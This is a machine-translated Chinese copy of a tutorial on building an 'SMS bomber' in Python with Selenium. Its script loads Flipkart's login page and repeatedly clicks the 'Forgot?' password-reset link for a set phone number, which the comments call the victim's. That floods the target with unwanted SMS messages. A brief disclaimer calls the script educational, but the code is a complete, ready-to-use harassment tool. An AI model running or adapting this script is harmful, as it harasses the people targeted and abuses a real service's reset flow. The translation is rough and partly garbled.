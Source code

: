 # Python |使用硒元素的短信轰炸机

> 原文:[https://www . geesforgeks . org/python-SMS-轰炸机-使用-selenium/](https://www.geeksforgeeks.org/python-sms-bomber-using-selenium/)

在这里，我们将学习一个简单的短信炸弹技巧(出于娱乐和教育目的)。Selenium 是一个免费的工具，用于跨不同浏览器的自动化测试。在本教程中，我们将学习在给定次数和间隔内自动发送垃圾短信的次数。
**要求:**
需要安装 **chromedriver** 并设置路径。[点击此处](https://sites.google.com/a/chromium.org/chromedriver/downloads)下载。
**下面是步骤:**

*   首先使用这个[链接去 flipkart 网站。](https://www.flipkart.com/account/login?ret=/)
*   然后通过按 ctrl + shift + i 或进入浏览器设置并手动单击检查元素来单击检查元素。
*   然后找到“输入数字”输入框的类名和“忘记了？”链接。我们以后会用到它。

![FInd class name of 'Ente the number' input field](img/19f59577b490c43760a69b290b229ad5.png) ![Find class name of 'Forgot?' link](img/6dd5884d574b7adabc65e2c3ed6a194f.png)

*   现在，通过为每个元素输入适当的类名来运行脚本。
*   现在它会自动向你朋友的手机号码发送垃圾短信。

**注意:**本教程仅供教育之用，请不要用它来打扰任何人或任何不道德的方式。
下面是实现:

## 蟒蛇 3

```py
from selenium import webdriver
import time

# create instance of Chrome webdriver
browser = webdriver.Chrome()

# set the frequency of sms which is approx maximum to 10 per 24 days
frequency = 10

# target mobile number, change it to victim's number and
# also ensure that it's registered on flipkart
mobile_number ="1234567890"

for i in range(frequency):
    browser.get('https://www.flipkart.com/account/login?ret=/')

    # find the element where we have to
    # enter the number using the class name
    number = browser.find_element_by_xpath('//*[@id="container"]/div/div[3]/div/div[2]/div/form/div[1]/input')

    # automatically type the target number
    number.send_keys("1234567890")

    # find the element to send a forgot password
    # request using it's class name
    forgot = browser.find_element_by_link_text('Forgot?')

    # clicking on that element
    forgot.click()

    # set the interval to send each sms
    time.sleep(2)

# Close the browser
browser.quit()
```
